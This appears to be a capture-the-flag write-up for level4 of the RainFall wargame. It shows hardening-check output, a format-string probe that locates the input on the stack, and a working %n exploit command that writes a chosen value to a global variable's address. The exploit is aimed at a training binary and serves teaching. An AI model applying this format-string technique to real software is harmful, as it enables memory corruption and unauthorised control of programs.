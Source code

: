 ```
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

This seems pretty similar, same fgets call, different printf

We can try and find the index of our input string

```
level4@RainFall:~$ python -c 'print("AAAA%x " * 20)' | ./level4 
AAAAb7ff26b0 AAAAbffff794 AAAAb7fd0ff4 AAAA0 AAAA0 AAAAbffff758 AAAA804848d AAAAbffff550 AAAA200 AAAAb7fd1ac0 AAAAb7ff37d0 AAAA41414141 AAAA41207825 AAAA25414141 AAAA41412078 AAAA78254141 AAAA41414120 AAAA20782541 AAAA41414141 AAAA41207825 
```

Index 12 it seems.

Now to get the address of m with gdb, 0x08049810
So if we try like like times it gives us

```
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'| ./level4
```